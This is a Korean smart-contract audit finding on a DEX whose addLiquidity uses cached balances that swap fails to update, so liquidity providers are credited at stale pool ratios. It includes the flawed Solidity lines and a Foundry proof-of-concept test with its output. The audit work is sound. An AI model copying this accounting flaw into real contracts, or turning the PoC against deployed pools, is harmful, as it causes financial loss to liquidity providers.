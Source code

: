 ## DEX - addLiquidity시 유동성 풀과의 오차 발생

### 설명

<aside>
💡 **키워드 : Vulnerability - 유동성 수치 오류
심각도 : High**
`addLiquidity` 시 현재 유동성에서 수치를 가져오지 않고 로컬 변수에서 가져오게 되는데, `swap` 함수 실행시 로컬 변수를 제대로 업데이트 하지 않아 이전 유동성 풀 비율을 사용하게 된다.

</aside>

```solidity
// addLiquidity 내부
uint256 xBalance = balances[address(tokenX)];
uint256 yBalance = balances[address(tokenY)];

// swap 내부
tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
tokenX.transfer(msg.sender, outputAmount);
```

`addLiquidity` 시 토큰으로부터 잔액을 참조하지 않고 로컬 변수로부터 값을 가져온다.

`removeLiquidity` 실행 시 로컬 변수를 제대로 업데이트 하지만, `swap` 실행 과정에서는 로컬 변수를 업데이트해주는 로직이 빠져있어 `swap` 이후 실행되는 `addLiquidity` 는 실제 유동성 풀과의 비율에 차이가 발생한다.

이로 인해 현재 가격이 아닌 이전 공급량을 기준으로 토큰을 발급받게 되고, 이는 유동성 공급자의 손해로 이어지게 된다.

### PoC

```solidity
function testPOC() external {
    dex.addLiquidity(100 ether, 100 ether, 0);
    tokenY.transfer(address(0x01), 90 ether);
    vm.startPrank(address(0x01));
    {
        tokenY.approve(address(dex), 90 ether);
        dex.swap(0 ether, 90 ether, 0);
        console.log(
            "swap result",
            tokenX.balanceOf(address(0x01)),
            tokenY.balanceOf(address(0x01))
        );
    }
    vm.stopPrank();
    dex.addLiquidity(1 ether, 1 ether, 0);
}
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPOC() (gas: 249860)
Logs:
  balanec 0 0
  real balance 0 0
  swap result 47343478489810963087 0
  balanec 100000000000000000000 100000000000000000000
  real balance 52656521510189036913 190000000000000000000
```
